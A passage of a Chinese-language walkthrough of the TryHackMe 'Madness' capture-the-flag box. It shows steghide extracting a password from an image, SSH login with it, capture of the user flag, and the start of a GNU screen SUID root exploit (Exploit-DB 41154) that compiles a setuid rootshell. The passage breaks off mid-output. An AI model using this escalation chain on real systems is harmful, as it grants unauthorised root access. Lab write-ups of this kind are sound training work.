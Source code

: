 └─#  steghide extract -sf 5iW7kC8.jpg                                                                                                                                                                                                    1 ⨯
Enter passphrase: 
wrote extracted data to "password.txt".
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/Madness]
└─#  cat password.txt    
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP

```

# 真是骚到飞起！

现在登录ssh，拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/Madness]
└─#  ssh joker@10.10.123.91          
joker@10.10.123.91's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sun Jan  5 18:51:33 2020 from 192.168.244.128
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt 
THM{d5781e53b130efe2f94f9b0354a5e4ea}
joker@ubuntu:~$ 
```

# 提权
传leapeas，枚举提权漏洞信息，发现screen 这个SUID可以提权

提权攻击脚本见[这里](https://www.exploit-db.com/exploits/41154)



```
joker@ubuntu:/tmp$ ./exp.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]